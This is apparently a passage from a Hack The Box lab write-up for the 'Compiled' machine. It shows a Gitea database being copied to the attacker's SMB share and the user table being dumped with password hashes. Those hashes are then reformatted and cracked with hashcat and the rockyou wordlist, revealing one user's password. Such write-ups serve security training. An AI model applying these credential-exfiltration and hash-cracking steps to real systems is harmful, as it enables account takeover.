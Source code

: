 ```
copy "data\gitea.db" "\\10.10.14.5\share\gitea.db"
        1 file(s) copied.

```

Then use `sqlite3` to check the database, we find the credit of `administrator` and `emily`
```
sqlite> select * from user;
1|administrator|administrator||administrator@compiled.htb|0|enabled|1bf0a9561cf076c5fc0d76e140788a91b5281609c384791839fd6e9996d3bbf5c91b8eee6bd5081e42085ed0be779c2ef86d|pbkdf2$50000$50|0|0|0||0|||6e1a6f3adbe7eab92978627431fd2984|a45c43d36dce3076158b19c2c696ef7b|en-US||1716401383|1716669640|1716669640|0|-1|1|1|0|0|0|1|0||administrator@compiled.htb|0|0|0|0|0|0|0|0|0||arc-green|0
2|richard|richard||richard@compiled.htb|0|enabled|4b4b53766fe946e7e291b106fcd6f4962934116ec9ac78a99b3bf6b06cf8568aaedd267ec02b39aeb244d83fb8b89c243b5e|pbkdf2$50000$50|0|0|0||0|||2be54ff86f147c6cb9b55c8061d82d03|d7cf2c96277dd16d95ed5c33bb524b62|en-US||1716401466|1720089561|1720089548|0|-1|1|0|0|0|0|1|0||richard@compiled.htb|0|0|0|0|2|0|0|0|0||arc-green|0
4|emily|emily||emily@compiled.htb|0|enabled|97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16|pbkdf2$50000$50|1|0|0||0|||0056552f6f2df0015762a4419b0748de|227d873cca89103cd83a976bdac52486|||1716565398|1716567763|0|0|-1|1|0|0|0|0|1|0||emily@compiled.htb|0|0|0|0|0|0|0|2|0||arc-green|0
6|wither|wither||wither@test.com|0|enabled|b422e31664285ab40e2e9bac817c57db61687c859174302a43a15772b8bb59c9c3d978364b123c9ce0d7f5534c1c441dbdb3|pbkdf2$50000$50|0|0|0||0|||fec14fa2fbdb22ea4ed0ca77cf55eda4|d9b5644c457adef02e1491dfda0fa073|en-US||1753506862|1753509288|1753507785|0|-1|1|0|0|0|0|1|0||wither@test.com|0|0|0|0|3|0|0|0|0|unified|arc-green|0
sqlite> 

```

We need to create the format of hash to crack
![](images/Pasted%20image%2020250726161210.png)
So the hashes would be
```
administrator:sha256:50000:pFxD023OMHYVixnCxpbvew==:G/CpVhzwdsX8DXbhQHiKkbUoFgnDhHkYOf1umZbTu/XJG47ua9UIHkIIXtC+d5wu+G0=
richard:sha256:50000:188slid90W2V7Vwzu1JLYg==:S0tTdm/pRufikbEG/Nb0lik0EW7JrHipmzv2sGz4Voqu3SZ+wCs5rrJE2D+4uJwkO14=
emily:sha256:50000:In2HPMqJEDzYOpdr2sUkhg==:l5BygNwk/lF8Q0db0hi/rVbCXU0RA32LbaRA79TWka3+rUAzCyqmqvHzNiHQ1zIo/BY=
```

We can use `john` to crack the password of `emily`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ hashcat emily.hash /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

sha256:50000:In2HPMqJEDzYOpdr2sUkhg==:l5BygNwk/lF8Q0db0hi/rVbCXU0RA32LbaRA79TWka3+rUAzCyqmqvHzNiHQ1zIo/BY=:12345678
```